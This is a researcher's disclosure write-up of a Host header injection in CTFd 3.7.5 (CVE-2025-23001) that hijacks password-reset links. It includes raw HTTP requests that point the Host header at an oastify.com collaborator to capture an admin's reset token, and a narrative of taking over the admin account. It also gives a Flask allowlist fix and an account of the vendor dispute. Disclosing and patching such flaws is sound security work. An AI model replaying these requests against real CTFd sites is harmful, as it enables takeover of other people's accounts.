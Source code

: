 ```yaml
---
date: 2025-05-02 10:15:00
---
```


# POC CVE-2025-23001 CTFd 3.7.5

> Posted by TheWindGhost — 31/01/2025, Updated: 19/04/2025
>
> Report co-authors:
>
> - h??? (PTIT Ho-Chi-Minh City)
> - thD (VLUTE Vinh-Long City)
> - taneora (HUST Ha-Noi City)

The vulnerability was originally discovered by **TheWindGhost** (Security Researcher), who was the first to identify and
confirm the issue. Co-Authors contributed technical write-up, report structuring, and analysis.

---

## 1. Introduction

I first examined the CTFd source code and noticed that it did not secure or filter the Host header. This is where the
vulnerability starts.

![MITRE Reply With CVE-ID](https://thewindghost.github.io/posts/image-post/cve-2025-23001/1.png)

---

![Host Header Injection POC](https://thewindghost.github.io/posts/image-post/cve-2025-23001/2.png)

---

## 2. Host Header Injection

The request looks like this:

```http
- Test Host Header Injection
GET / HTTP/2
Host: 0ghb7us820bm4l90zd2vvixkhbn2bszh.oastify.com
Cookie: delete
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

I changed the Host header to use my Burp Suite collaborator. If the request is received by my server, this is a bug.

---

## 3. Exploit the Vulnerability & Steps to Exploit Reset Password

I logged into my user account and reset my password. The password reset token was included in the URL. Next, I attempted
to exploit this to reset the admin’s password.
![Reset Link Real](https://thewindghost.github.io/posts/image-post/cve-2025-23001/3.png)

I obtained the admin’s email from Discord and sent a request to reset the password:
![Password Reset Form](https://thewindghost.github.io/posts/image-post/cve-2025-23001/4.png)

```http
- Exploit Host Header Injection
POST /reset_password HTTP/2
Host: zx0aot97jzsllkqzgcjuchejya41ssgh.oastify.com
Cookie: delete
Content-Length: 120
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=mail-victim%40gmail.com&_submit=Submit&nonce=fake-937dd2059eb240c25ca77ff5743d4aee
```

And i change domain collaborator in host header request
![Hijacked Password Reset](https://thewindghost.github.io/posts/image-post/cve-2025-23001/5.png)

Then, I waited for the admin to click the reset link and successfully hijacked the password reset process.
![Hijacked Successfully](https://thewindghost.github.io/posts/image-post/cve-2025-23001/6.png)

Okay and we will reset password for login account admin.
![Reset Password Account Admin Screenshot](https://thewindghost.github.io/posts/image-post/cve-2025-23001/7.png)

Finally, I successfully exploited the vulnerability. One hour later, I spoke with the developer, but he didn’t understand that I had hacked and gained access to his account. I explained it to him and asked him to send me a screenshot of the email.

![Admin Account Access](https://thewindghost.github.io/posts/image-post/cve-2025-23001/8.png)
![Email Screenshot](https://thewindghost.github.io/posts/image-post/cve-2025-23001/9.png)

---

## 5. Security Fix

```python
- To secure against this vulnerability, add the following code:
import os
import re
from flask import request, abort
from CTFd import create_app

ALLOWED_HOSTS = {
"example.com", # change domain server
"192.168.1.1", # change ip public
}

ALLOWED_PROXIES = {"127.0.0.1", "192.168.1.1"} # change ip public

BLOCKED_HOST_REGEX = re.compile(r"^(localhost|127\.0\.0\.1|0\.0\.0\.0|::1|local)$", re.IGNORECASE)

app = create_app()

@app.before_request
def strict_host_protection():
host = request.headers.get("Host", "").split(":")[0]
forwarded_host = request.headers.get("X-Forwarded-Host", "").split(":")[0]
remote_addr = request.remote_addr
forwarded_for = request.headers.get("X-Forwarded-For", "").split(",")[0].strip()
real_ip = forwarded_for if forwarded_for else remote_addr

if forwarded_host and forwarded_host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {forwarded_host} -> {real_ip}")
abort(400)

if remote_addr in ALLOWED_PROXIES:
if BLOCKED_HOST_REGEX.match(host) or host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {host} -> {real_ip}")
abort(400)
else:
abort(400)

if __name__ == "__main__":
app.run(debug=False, host="127.0.0.1", port=4000)
```

Apply my security code to safeguard against this vulnerability and ensure we are protected!
![Reproduce HHI Again](https://thewindghost.github.io/posts/image-post/cve-2025-23001/10.png)
![Email Dev](https://thewindghost.github.io/posts/image-post/cve-2025-23001/11.png)

---

## 6. Vendor Response

When I reached out to the CTFd vendor, they told me that users need to configure Nginx for security. However, according to cybersecurity best practices, security should be built by design and by default. CTFd does not follow this policy.

**MITRE** accepted my submission based on this reasoning.

I would like to express my gratitude to **MITRE** for its fairness in managing CVE updates.
![Secure by default and design](https://thewindghost.github.io/posts/image-post/cve-2025-23001/12.png)

> **Secure by Design and Secure by Default**
>
> - [Beginner’s Guide on Secure byDesign](https://safestack.io/blog/resources/secure-by-design-and-default-a-beginners-guide)
> - [CISA: Secure by Design](https://www.cisa.gov/securebydesign)

